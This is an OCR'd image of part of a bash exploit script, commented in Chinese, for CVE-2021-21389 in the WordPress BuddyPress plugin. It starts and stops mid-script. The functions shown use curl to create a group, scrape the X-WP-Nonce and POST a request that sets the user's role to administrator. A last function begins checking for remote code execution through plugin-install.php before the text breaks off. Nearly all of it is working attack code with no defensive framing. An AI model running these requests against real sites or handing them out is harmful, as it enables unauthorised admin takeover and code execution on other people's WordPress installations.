 ```bash
}

# 创建新群组函数
createNewgroup() {
    local url=$1
    local cookies_file=$2
    local username=$3

    echo "[+] 创建新群组以获取 X-WP-Nonce"

    response=$(curl -s -b "$cookies_file" "$url/groups/create/step/group-details/")

    if [[ "$response" == *"404 Not Found"* ]]; then
        echo "[-] 站点需要启用用户群组组件！"
        exit 1
    fi

    _wp_nonce=$(echo "$response" | grep -oP 'name="_wpnonce" value="\K[^"]+')

    group_name="cve-2021-21389$username"

    curl -s -b "$cookies_file" -X POST "$url/groups/create/step/group-details/" \
        -F "group-name=$group_name" \
        -F "group-desc=$group_name" \
        -F "_wpnonce=$_wp_nonce" \
        -F "group-id=0" \
        -F "save=Create Group and Continue" > /dev/null

    response=$(curl -s -b "$cookies_file" "$url/groups/$group_name/admin/manage-members/")
    x_wp_nonce=$(echo "$response" | grep -oP 'var wpApiSettings = .*?"nonce":"\K[^"]+')

    echo "$x_wp_nonce"
}

# 提权函数
privilegeEscalation() {
    local url=$1
    local cookies_file=$2
    local x_wp_nonce=$3

    echo "[+] 提权为管理员！"

    data='{"roles":"administrator"}'

    curl -s -b "$cookies_file" -X POST "$url/wp-json/buddypress/v1/members/me" \
        -H "X-WP-Nonce: $x_wp_nonce" \
        -H "Content-Type: application/json; charset=UTF-8" \
        -d "$data" > /dev/null
}

# 远程代码执行函数
rce() {
    local url=$1
    local cookies_file=$2
    local command=$3

    echo "[+] 检查 RCE ..."

    response=$(curl -s -b "$cookies_file" "$url/wp-admin/plugin-install.php")

    if [[ "$response" == *"403 Forbidden"* ]]; then
        echo "[-] 你不是管理员！"
        exit 1
```